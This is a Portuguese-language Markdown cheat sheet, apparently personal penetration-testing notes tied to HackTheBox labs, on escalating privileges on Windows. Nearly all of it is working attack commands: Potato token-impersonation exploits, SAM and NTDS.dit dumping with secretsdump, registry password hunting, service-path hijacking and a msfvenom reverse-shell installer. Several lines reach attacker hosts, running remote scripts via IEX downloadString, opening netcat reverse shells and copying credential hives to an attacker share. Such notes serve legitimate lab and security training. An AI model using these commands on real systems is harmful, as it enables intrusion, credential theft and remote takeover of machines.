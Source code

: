 # Windows PrivEsc

## Checklist

- [ ] [**Permissão do usuário**](#permissao%20de%20usuario)
- [ ] [**Navegar nos diretórios do usuário**](#navegacao-diretorios)
- [ ] [**WinPeas e PowerUp**](#winpeas-e-powerup)
- [ ] [**Senhas salvas no registro**](#credenciais-no-registro)
- [ ] [**Enumerar serviços locais/restritos**](#enumeracao-de-servicos)
- [ ] [**Enumerar scheduled tasks/tarefas agendadas**](#scheduled-tasks)
- [ ] [**Versão de kernel**](#versao-de-kernel)
- [ ] [**Reutilização de credenciais já obtidas**](#reuso-de-senha)
- [ ] [**Explorando Unquoted Service Path**](#unquoted-service-path)
- [ ] [**Enumeração de processos da máquina**](#enumeracao-de-processos)
- [ ] [**AlwaysInstallElevated**](#alwaysinstallelevated)
- [ ] [**Credenciais em cache**](#credenciais-em-cache)
- [ ] [**Enumerar dispositivos da máquina**](#enumerar-dispositivos-da-maquina)
- [ ] [**Enumerar senhas por meio de arquivos de configuração, anotações de usuários, etc...**](#enumeracao-de-senhas)
- [ ] [**Permissionamento de arquivos**](#permissionamento-de-arquivos-e-pastas)

Depois considerar esse link para verifcar uma ferramenta para obtenção de credencais em processos como firefox chrome e afins...

https://github.com/putterpanda/mimikittenz

<details markdown="1"><summary markdown="1">
## Permissão de usuário
</summary>

Aqui estamos a procura de permissões tais como:

SeImpersonate
SeDebug
SeBackup

Existem outros que podem ser explorados também, porém esses são o suficiente por enquanto:

**SeImpersonate**

```
whoami /priv
```

Aqui vale considerar os exploits Potatoes:

```
PrintSpoofer32.exe -i -c powershell
```

O exploit abaixo tem que considerar as portas abertas no firewall para ele funcionar adequadamente:

```
./jp.exe -t * -p c:\temp\s.bat [-l porta]
```
```
PrintSpoofer32.exe -i -c powershell

JuicyPotato.exe -t * -p shell.bat -l 4444

jp.exe -t * -p shell.bat -l 4444

whoami /all

SE IMPERSONATE
```
### Exemplos práticos

Vide máquina [Jeeves](../../../CTFs_Labs/HackTheBox/Jeeves#privilege-escalation)
Vide máquina [Bounty](../../../CTFs_Labs/HackTheBox/Bounty#privilege-escalation)


**LEMBRAR DE QUE AS PORTAS UTILIZADAS NO COMANDO DEVEM ESTAR LIBERADAS NO FIREWALL.**

Esse juicyPotato que funcionou é o que se encontra neste link:

[https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip](https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip)

**SeBackup**

Aqui podemos fazer uma cópia dos arquivos system e sam para a máquina do atacante para quebrar os hashes de senha ou utilizá-los para fazer os ataques pass the hash:

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

**Observação de que no cenário de Domain Controller, temos de considerar a cópia do NTDS.DIT seguindo as seguintes etapas:**

Fazer um arquivo com o seguinte conteúdo:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```
Antes de transferir o arquivo para a máquina alvo, precisamos fazer uma conversão para ficar tudo ok:

    unix2dos test.dsh

Se atentar somente ao diretório direitinho no qual se está operando: Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

```
diskshadow /s test.dsh
robocopy /b z:\windows\ntds . ntds.dit
reg save hklm\system c:\Temp\system
```

Já na máquina do atacante, podemos executar o seguinte:

    impacket-secretsdump -ntds ntds.dit -system system local

Vide máquina [BlackField](../../../CTFs_Labs/HackTheBox/Blackfield#privesc)

</details>

<details markdown="1"><summary markdown="1">
## Navegação diretórios
</summary>

 Navegar nos diretorios do usuario para ver se existe algo ali que possa nos fornecer uma credencial ou algum bionario que inicie um servico/programa vulneravel a escalacao de privilegio

**Verificar se dentro do C:/ também existe algo.**

cmd

```
dir /s /b /a:-d-h \Users\usuario | findstr /i /v "appdata"
```
Mais abrangente:
```
cd c:\users
dir /s
```
```
cd c:/
dir
```

Powershell
```
gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
```
Procurar por arquivos específicos
```
cd c:\users
cgi -recurse
```
Procurar por arquivos específicos
```
gci -recurse -filter <file_name> [-Path]
```
Procurar por programas instalados que sejam exploráveis
```
gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
```
Exemplos:

![qownnotes-media-PvAXBV](../../../media/qownnotes-media-PvAXBV.png)

Exemplos que não são exploráveis:

![qownnotes-media-QpQnUo](../../../media/qownnotes-media-QpQnUo.png)

![qownnotes-media-vflhHT](../../../media/qownnotes-media-vflhHT.png)


Importante ressaltar que quando houver algum binário que vamos precisar fazer algum tipo de engenharia reversa, vamos considerar os seguintes cenários:

[.NET podemos utilizar o dnSpy](../../..)

### Exemplos práticos
Vide máquina [Bastion](../../../CTFs_Labs/HackTheBox/Bastion#privilege-escalation) : CVE de binário encontrado no c:/ da máquina.
Vide máquina [Buff](../../../CTFs_Labs/HackTheBox/Buff#privilege-escalation) : CVE exemplo de binário encontrado na pasta Downloads do usuário


</details>

<details markdown="1"><summary markdown="1">
## Winpeas e PowerUp
</summary>

Rodar um scan automatizado. Lembrando que esses scans são pegos por antivírus, então a abordagem manual sempre é mais interessantes em pentests de produção.
Verificar se existe algum servico disponivel para exploracao com permissoes demais. Aqui temos que usar o accesschk.

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/winPEASx64.exe', 'c:\temp\w.exe')
./w.exe
```

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/PowerUp.ps1', 'c:\temp\p.ps1')
. ./p.ps1]
invoke-allchecks
```
</details>

<details markdown="1"><summary markdown="1">
## Credenciais no registro
</summary>
```
reg query HKLM /f *password* /t REG_SZ /s

reg query HKLM /f teamviewer /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s
```

### Autologon

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

reg query HKLM\SOFTWARE\Wow6432Node\TeamViewer\Version7 /v SecurityPasswordAES

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName   

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword   
```
Vide máquina [Chatterbox](../../../CTFs_Labs/HackTheBox/Chatterbox#privilege-escalation)
Vide máquina [Sauna](../../../CTFs_Labs/HackTheBox/Sauna#privilege-escalation)

</details>

<details markdown="1"><summary markdown="1">
## Enumeração de Serviços
</summary>

Checar os servicos que estao rodando na maquina para ver se temos permissao de alteracao em algum deles

A presença de interfaces virtuais pode aferir a ideia de existir máquinas virtuais na máquina ou de anti vírus instalado

Esse comando enumera as conexões e portas abertas, pelas quais são fornecidos os serviços de rede tais como banco de dados, aplicações web e/ou serviços que estajam vulneráveis a algum tipo de exploit público, por exemplo .
Pesquisando a respeito do serviço, podemos encontrar fragilidades que podemos explorar para escalar privilégios na máquina. Mas, claro, sempre visando serviços que rodam em modo system (que é nosso alvo)

    netstat -ano

O comando abaixo exige privilégio administrativo

    netstat -anb

Enumerando as interfaces de rede

    ipconfig /all
    route print

### Weak service permissions

![qownnotes-media-jCADRm](../../../media/qownnotes-media-jCADRm.png)

![qownnotes-media-Yhpwrk](../../../media/qownnotes-media-Yhpwrk.png)

    ./accesschk.exe -ucwqv UsoSvc /accepteula
    
    ./accesschk.exe -ucwqv <servicename> /accepteula

Com esse comando, verificamos que estamos no grupo NTAUTHORITY/SERVICE
    
    whoami /all

![qownnotes-media-zdSaRr](../../../media/qownnotes-media-zdSaRr.png)

    sc.exe config usosvc binpath="C:\temp\revshell.exe"

![qownnotes-media-QfiKZv](../../../media/qownnotes-media-QfiKZv.png)

    net stop usosvc
    net start usosvc

Vide máquina [Remote](../../../CTFs_Labs/HackTheBox/Remote#privilege-escalation)

</details>

<details markdown="1"><summary markdown="1">
## Scheduled Tasks
</summary>


```
schtasks /query /fo LIST /v

schtasks /query /fo LIST /v > schtasks.txt
copy schtasks.txt \\10.10.14.17\smb\scht.txt

dos2unix scht.txt
cat scht.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```

![qownnotes-media-MkSFLk](../../../media/qownnotes-media-MkSFLk.png)

![qownnotes-media-eaAziX](../../../media/qownnotes-media-eaAziX.png)

![qownnotes-media-aeBsJo](../../../media/qownnotes-media-aeBsJo.png)

![qownnotes-media-bOauze](../../../media/qownnotes-media-bOauze.png)

Usando accesschk.exe

```
accesschk.exe /accepteula -quvw <username> <filename>
```

![qownnotes-media-JfEeCP](../../../media/qownnotes-media-JfEeCP.png)
</details>

<details markdown="1"><summary markdown="1">
## Versão de kernel
</summary>
https://github.com/SecWiki/windows-kernel-exploits

Se estiver com interface gráfica:

    winver
ou

    wmic os get Caption /value

ou

    ver

No powershell

    cmd /c ver

ou

    [System.Environment]::OSVersion

ou geralmente:

```
systeminfo > si.txt
copy si.txt \\10.10.14.17\smb\si.txt
```

Na máquina do atacante podemos utilizar o Windows Exploit suggester (wes):

### Windows Exploit Suggester

```
pip install wesng

sudo ln -s /home/acosta/.local/bin/wes /usr/bin/wes

wes --update
dos2unix si.txt
wes si.txt
```

**Não menos importante, podemos fazer pesquisas no google também**

Vide máquina Windows Server 2012 R2 [Optimum](../../../CTFs_Labs/HackTheBox/Optimum#privilege-escalation)
Vide máquina Windows Server 2008 R2 Build 7600 [Bastard](../../../CTFs_Labs/HackTheBox/Bastard#privesc)


</details>

<details markdown="1"><summary markdown="1">
## Reuso de senha
</summary>
```
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred
```

Outra opção seria:

```
$username = "arkham\batman"
$password = "Zx^#QZX+T!123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
new-pssession -computername . -credential $cred
```
Ainda outra opção seria com runas:

```
runas /user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
```
Existe um runas compilado que pode ser encontrado em:
https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

```
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> cmd
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> powershell
```
### PasswordSpray

    kerbrute passwordspray -d test.local domain_users.txt password123

    awk {'print $1":"$1'} usuarios.txt > senhas.txt
    netexec smb 10.10.10.1 -u usuarios.txt -p senhas.txt --continue --no-bruteforce

### Bruteforce

    kerbrute bruteuser -d <dominio> --dc <endereco_ip> senhas.txt <usuario>


</details>

<details markdown="1"><summary markdown="1">
## Unquoted Service Path
</summary>
cmd

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
Podemos utilizar uma abordagem com o registro do Windows também:

    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\

Para ter um pouco mais de precisão, podemos utilizar findstr:

    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ | findstr "<nome_do_serviço>"


Powershell

```
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de processos
</summary>
```
get-process
wmic process
tasklist
tasklist /svc
tasklist /v /fi "username eq system"
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

    Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

</details>
<details markdown="1"><summary markdown="1">
## AlwaysInstallElevated
</summary>
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_Atacante> LPORT=<Porta> -a x64 --platform Windows -f msi -o bin.msi
```

Baixar para a máquina da vítima o ".msi"

    msi /i bin.msi
</details>

<details markdown="1"><summary markdown="1">
## Credenciais em cache
</summary>
```
cmdkey /list
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```
</details>

<details markdown="1"><summary markdown="1">
## Enumerar dispositivos da máquina
</summary>

```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object Display Name, Start Mode, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```
```
wmic logicaldisk get deviceid, volumename, description

#powershelll
powershell -c get-psdrive -psprovider filesystem

mountvol
```
Depois de enumerar, eh interessante montarmos o volume pra verificar se temos algo.

mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\

    mountvol

Depois dee enumerar, eh interessante montarmos o volume pra verificar se temos algo.

    mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de senhas
</summary>

Vale ressaltar que com o comando do findstr eu não tive sucesso na procura, porém, para algumas versões do Windows está funcional:


    findstr /si password *.doc *.txt *.ini *.config
    dir /s *pass* == *cred* == *ssh* == *.config*

**O comando abaixo foi o que funcionou para procurar strings via CMD**

    for /r %a in (\*.*) do find /i "password" %a
    
Powershell. Esse comando vale a pena procurar em locais específicos, porque ele trás um resultado bem grande...

    Get-ChildItem -recurse | Select-String -pattern "password"
    
No registro do Windows
    
    reg query HKLM /f *password* /t REG_SZ /s
    
    reg query HKLM /f teamviewer /t REG_SZ /s
    
    reg query HKCU /f password /t REG_SZ /s
    
</details>

<details markdown="1"><summary markdown="1">
## Permissionamento de arquivos e pastas
</summary>
```
(new-object net.webclient).downloadfile('http://10.10.14.17/4-privilege%20escalation/accesschk64.exe', 'c:\temp\a.exe')

.\a.exe -uwqs -accepteula Users c:\*.*
.\a.exe -uwqs -accepteula "Authenticated Users" c:\*.*

Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

Full name

```
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uws "Everyone" "C:\Program Files"
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```
</details>

## Pontos de atenção

Aqui um ponto de atenção é que, caso não encontre nada na máquina, vale considerar que o serviço pelo qual entramos (geralmente web app), pode fornecer um ponto de entrada para a escalação de priilégio por meio da aplicação que está rodando no contexto system. às vezes a verificação ocorre por tentiva e erro mesmo.

Detalhe que daqui em diante, as enumerações são todas vistas nos processos automatizados. Então é bom não deixar de verificar este último ponto e um double check manual mesmo.






## Binary planting

```
sc config [service_name] binpath= "C:\temp\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```

Uma vez obtido system na máquina, é possível extrair a SAM da seguinte maneira:

por meio dos registros:

Na máquina vítima

```
reg save HKLM\SAM \\10.10.14.11\smb\sam
reg save HKLM\SYSTEM \\10.10.14.11\smb\system
```

Na máquina atacante:

```
impacket-secretsdump -sam sam -system system local
```

Acessando diretamente a o hard drive da máquina:

```
sudo guestmount --add '/tmp/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro -v /mnt/vhd

cp vhd/Windows/System32/config/SAM /home/acosta/Downloads
cp vhd/Windows/System32/config/SYSTEM /home/acosta/Downloads
impacket-secretsdump -sam SAM -system SYSTEM local
```

ou até mesmo fazendo o port forwarding

## Enumeração de regras de firewall

    netsh advfirewall show currentprofile
    
    netsh advfirewall firewall show rule name=all
    
     Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name


## Writable files
 
     Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
